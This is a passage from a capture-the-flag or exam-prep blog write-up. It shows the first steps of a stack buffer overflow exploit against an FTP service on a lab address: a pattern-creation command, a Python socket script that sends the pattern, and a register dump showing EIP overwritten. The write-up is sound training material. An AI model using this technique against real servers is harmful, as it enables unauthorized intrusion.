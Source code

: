 What's interesting here is that a `NULL` byte is being written to memory at `00B5FFFF`, just something to bear in mind later on.

## Controlling EIP

The next thing to do is to start crafting an exploit, and in order to execute our own code we need to control `EIP`. First we need to know the offset of the bytes that overwrite `EIP` and for this we'll use the tried and true `pattern_create.rb` along with its cohort `pattern_offset.rb`. However, I'm not a fan of having massive exploit payloads directly pasted into my source code, so instead I read the files in. We create the pattern file like so:

{% codeblock Creating a pattern %}
$ pattern_create.rb 356 > pattern.txt
{% endcodeblock %}

We then begin our exploit with a simple shell that looks like this:

{% codeblock sploit.py version 1 lang:python %}
#!/usr/bin/python

import socket

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

print "[*] Attacking {0}:{1} ...".format(host, port)
command = read_file('pattern.txt')
print "[*] Command {0} chars...".format(len(command))
pwn(command)
{% endcodeblock %}

If we launch this script, the program crashes with the following register content:

{% codeblock Register contents %}
EAX 00000000
ECX 0024CF98
EDX 00000031
EBX 336A4132
ESP 00B5FFC0 ASCII "0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al"
EBP 376A4136
ESI 41346A41
EDI 6A41356A
EIP 41386A41
{% endcodeblock %}


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux